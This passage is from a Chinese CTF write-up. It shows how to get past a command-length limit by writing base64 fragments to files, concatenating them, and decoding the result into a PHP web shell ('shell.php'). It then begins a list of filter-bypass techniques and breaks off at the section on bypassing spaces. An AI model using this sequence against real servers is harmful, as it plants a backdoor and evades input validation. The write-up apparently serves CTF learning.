 ```bash
echo -n Oz>q;
echo -n 8+>r;
```

![0aq04x.png](https://s1.ax1x.com/2020/10/07/0aq04x.png)

然后组合base64解码并生成php文件

```bash
cat a b>s;
cat s c>b;
cat b d>s;
cat s e>a;
cat a f>s;
cat s g>a;
cat a h>s;
cat s i>a;
cat a j>s;
cat s k>a;
cat a l>s;
cat s m>a;
cat a n>s;
cat s o>a;
cat a p>s;
cat s q>a;
cat a r>s;
```

![0aqbrQ.png](https://s1.ax1x.com/2020/10/07/0aqbrQ.png)

```bash
base64 -d s>z;
cp z shell.php;
```

![0aLZPx.png](https://s1.ax1x.com/2020/10/07/0aLZPx.png)







## CTF题解方法总结

### 0x00:一些绕过姿势

在遇到的一些web题中，会经常将以下几种给过滤或者进行限制：

1. 空格
2. 命令分隔符
3. 关键字
4. 限制长度

#### 空格绕过
